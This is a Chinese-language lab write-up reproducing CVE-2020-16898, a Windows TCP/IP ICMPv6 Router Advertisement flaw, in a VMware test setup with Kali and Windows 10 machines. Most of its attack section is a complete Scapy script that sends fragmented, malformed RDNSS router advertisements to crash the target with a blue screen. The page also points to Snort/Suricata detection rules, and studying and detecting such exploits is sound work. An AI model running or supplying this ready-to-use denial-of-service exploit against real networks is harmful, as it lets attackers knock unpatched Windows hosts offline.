




# 0x0 前言
### CVE-2020-16898 Description  
A remote code execution vulnerability exists when the Windows TCP/IP stack improperly handles **ICMPv6** Router Advertisement packets, aka 'Windows TCP/IP Remote Code Execution Vulnerability'.

>本次沒有查到取得shell的payload，只有使受攻擊機藍屏的
* ()內為測試時使用之環境
* `灰底字`為指令

# 0x1 前置需求
* 虛擬機軟體 (VMware Workstation 15.5.7)
* 攻擊機 (Kali Linux 2020.4)
* 受攻擊機 (Windows 10 1709 enterprise EVAL x64)

# 0x2 虛擬機軟體設定開啟IPv6(VMware)
1. **Edit > Virtual Network Editor**  
    

2. 點選**Change Settings**  
    

3. 根據**subset address**選取網段，並點選**NAT Settings**  
    

4. 勾選**Enable IPv6**  
    

# 0x3 受攻擊機環境建置
1. `ipconfig`，查看受攻擊機IPv6 ip  
    

# 0x4 攻擊機環境建置
1. `ifconfig`，查看攻擊機IPv6 ip  
    

2. 建立exploit.py，並更改攻擊機與受攻擊機IPv6 ip  

        from scapy.all import *
        from scapy.layers.inet6 import ICMPv6NDOptEFA, ICMPv6NDOptRDNSS, ICMPv6ND_RA, IPv6, IPv6ExtHdrFragment, fragment6
        
        v6_dst = "fd15:4ba5:5a2b:1008:a09e:4b7a:9c94:a0fe"	#受攻擊機IPv6 ip
        v6_src = "fe80::20c:29ff:fe8c:243b"				#攻擊機IPv6 ip
        
        p_test_half = 'A'.encode()*8 + b"\x18\x30" + b"\xFF\x18"
        p_test = p_test_half + 'A'.encode()*4
        
        c = ICMPv6NDOptEFA()
        
        e = ICMPv6NDOptRDNSS()
        e.len = 21
        e.dns = [
        "AAAA:AAAA:AAAA:AAAA:FFFF:AAAA:AAAA:AAAA",
        "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
        "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
        "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
        "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
        "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
        "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
        "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
        "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
        "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA" ]
        aaa = ICMPv6NDOptRDNSS()
        aaa.len = 8
        pkt = ICMPv6ND_RA() / aaa / \
            Raw(load='A'.encode()*16*2 + p_test_half + b"\x18\xa0"*6) / c / e / c / e / c / e / c / e / c / e / e / e / e / e / e / e
        
        p_test_frag = IPv6(dst=v6_dst, src=v6_src, hlim=255)/ \
                    IPv6ExtHdrFragment()/pkt
        
        l=fragment6(p_test_frag, 200)
        
        for p in l:
            send(p)
    
3. `sudo python3 exploit.py`  
    

4. 回到受攻擊機，可看到已變成藍屏，表示攻擊成功  
    

# 0x5 Snort/Suricata Rule
1. https://github.com/advanced-threat-research/CVE-2020-16898

# 0x6 Reference
* https://www.cnblogs.com/forforever/p/13846077.html
* https://blog.quarkslab.com/beware-the-bad-neighbor-analysis-and-poc-of-the-windows-ipv6-router-advertisement-vulnerability-cve-2020-16898.html

